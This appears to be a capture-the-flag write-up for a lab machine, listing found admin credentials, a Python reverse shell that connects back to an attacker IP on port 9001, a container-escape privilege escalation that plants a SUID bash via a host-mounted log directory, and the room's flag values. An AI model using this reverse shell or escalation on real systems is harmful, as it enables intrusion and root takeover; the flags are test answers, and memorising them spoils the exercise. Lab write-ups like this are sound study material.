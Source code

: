 # PYTHON PLAYGROUND

## BASIC INFO
```
export IP=10.10.152.202
```

/admin
```
username:connor
hashed_pass:dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu
password:spaghetti1245
```

/super-secret-admin-testing-panel.html
reverse shell:
```python
socket = __import__('socket')
subprocess = __import__('subprocess')
os = __import('os')
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.7.208",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

mount
```
/dev/xvda2 on /mnt/log type ext4 (rw,relatime,data=ordered)
```
...`/dev/xvda2` is mounted on `/mnt/log` and `/dev/xvda2` is on host machine.
Try writting a file in `/mnt/log` and see where it ends up in the host machine.
Seems like it is writting to `/var/log`. Also, it is own by root as well. Let's copy `/bin/bash` from the host machine to `/var/log` and then change it's permission and set the SUID bits on it.

```bash
#On container
chmod 777 /mnt/log
## This is to able connor to write in /var/log

#On host machine
cp /bin/bash /var/log

#On container
cd /mnt/log
chown root bash
chmod u+s ./bash

#On host machine
cd /var/log
./bash -p
```
...and now we have root shell.

THM{7e0b5cf043975e3c104a458a8d4f6f2f}
THM{69a36d6f9da10d23ca0dbfdf6e691ec5}
THM{be3adc69c25ad14eb79da4eb57925ad1}